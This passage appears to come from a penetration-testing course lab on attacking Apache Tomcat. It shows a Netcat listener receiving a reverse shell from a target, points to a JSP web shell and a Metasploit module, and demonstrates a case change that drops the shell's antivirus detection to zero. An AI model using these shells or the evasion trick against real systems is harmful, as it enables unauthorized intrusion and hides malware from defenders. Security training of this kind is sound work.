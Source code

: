 Start a Netcat listener and click on `/backup` to execute the shell.

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224


id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat\_mgr\_upload/) Metasploit module can be used to automate the process shown above, but we'll leave this as an exercise for the reader.

[This](https://github.com/SecurityRiskAdvisors/cmd.jsp) JSP web shell is very lightweight (under 1kb) and utilizes a [Bookmarklet](https://www.freecodecamp.org/news/what-are-bookmarklets/) or browser bookmark to execute the JavaScript needed for the functionality of the web shell and user interface. Without it, browsing to an uploaded `cmd.jsp` would render nothing. This is an excellent option to minimize our footprint and possibly evade detections for standard JSP web shells (though the JSP code may need to be modified a bit).

The web shell as is only gets detected by 2/58 anti-virus vendors.

![image](https://academy.hackthebox.com/storage/modules/113/vt2.png)

A simple change such as changing:

Code: java

```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```

to:

Code: java

```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```

results in 0/58 security vendors flagging the `cmd.jsp` file as malicious at the time of writing.

***

### A Quick Note on Web shells

When we upload web shells (especially on externals), we want to prevent unauthorized access. We should take certain measures such as a randomized file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
